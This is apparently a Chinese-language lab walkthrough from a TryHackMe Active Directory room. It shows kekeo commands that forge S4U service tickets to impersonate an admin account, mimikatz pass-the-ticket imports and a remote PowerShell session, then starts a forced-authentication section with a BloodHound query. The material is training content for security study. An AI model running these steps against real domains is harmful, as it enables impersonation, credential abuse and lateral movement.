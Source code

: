我们首先需要使用kekeo生成一个可用于生成 HTTP 和 WSMAN 服务票证的 TGT：

    kekeo # tgt::ask /user:svcIIS /domain:za.tryhackme.loc /password:redacted

参数说明：

    user - 具有受约束委派权限的用户。
    domain - 我们正在攻击的域，因为 Kekeo 可用于伪造票证以滥用跨林信任。
    password - 与 svcIIS 帐户关联的密码。

现在，我们有了可以执行委派的帐户的 TGT，我们可以为要模拟的帐户伪造 TGS 请求。我们需要为 HTTP 和 WSMAN 执行此操作，以允许我们在 THMSERVER1 上创建 PSSession：

    kekeo # tgs::s4u /tgt:<刚刚生成的TGT> /user:t1_trevor.jones /service:http/THMSERVER1.za.tryhackme.loc 

参数说明：

    tgt - 我们提供在上一步中生成的 TGT。
    user - 我们要模拟的用户。由于t2_帐户对工作站具有管理访问权限，因此可以安全地假设t1_帐户对服务器具有管理访问权限，因此请选择要模拟的t1_帐户。
    service - 我们希望使用委派模拟的服务。我们首先为 HTTP 服务生成一个 TGS。然后，我们可以为 WSMAN 服务重新运行相同的命令。

再次运行该命令，这次是针对 WSMAN 服务。现在我们有了两张TGS票，我们可以用Mimikatz导入它们了：

    mimikatz # privilege::debug

    mimikatz # kerberos::ptt <刚刚生成的TGS>

    mimikatz # kerberos::ptt <刚刚生成的TGS>

    mimikatz# exit

使用klist命令验证是否已导入：

    klist

针对winRM，我们使用前面横向移动学的cmdlet进行建立powershell会话：

    Enter-PSSession -ComputerName thmserver1.za.tryhackme.loc

---

在此任务中，我们将介绍一些自动继电器。身份验证尝试不断在网络上飞行，如违规AD房间所示，如果我们幸运的话，我们可以拦截其中一些挑战以获得访问权限。但是，如果我们不喜欢等待呢？如果我们可以强制进行身份验证怎么办？

尽管我们已经拥有对 THMSERVER1 的特权访问权限，但我们可能处于无法访问受约束委派攻击的位置。这是另一种出色的攻击，可以执行该攻击以获得对主机的特权访问。

### 计算机帐户

所有 Windows 主机都有一个计算机帐户。实质上，这是与计算机关联的用户帐户。除非有人篡改了主机的帐户，否则这些帐户的密码是无法破解的。默认情况下，它们的长度为 120 个字符 （UTF16），每 30 天自动轮换一次。

在AD中，这些计算机帐户在不同的服务中被大量使用。不同的域控制器使用其计算机帐户来同步 AD 更新和更改。当您代表您正在使用的主机请求证书时，该主机的计算机帐户将用于对 AD 证书服务进行身份验证。

AD 中有一个例外情况，其中一台计算机对另一台计算机具有管理员权限。实质上，在 AD 配置中，对一个主机的管理权限已授予另一个主机。同样，这是预期功能，例如必须同步的域控制器或 SQL 群集。但是，这些实例为强制身份验证提供了非常有趣的攻击媒介。

我们首先需要确定计算机帐户对另一台计算机具有管理访问权限的情况。我们可以为此使用Bloodhound，但这意味着我们将不得不编写一些自定义密码查询。单击BloodHound中“分析”选项卡中的“创建自定义查询”：

我们要编写以下查询：

    MATCH p=(c1:Computer)-[r1:MemberOf*1..]->(g:Group)-[r2:AdminTo]->(n:Computer) RETURN p
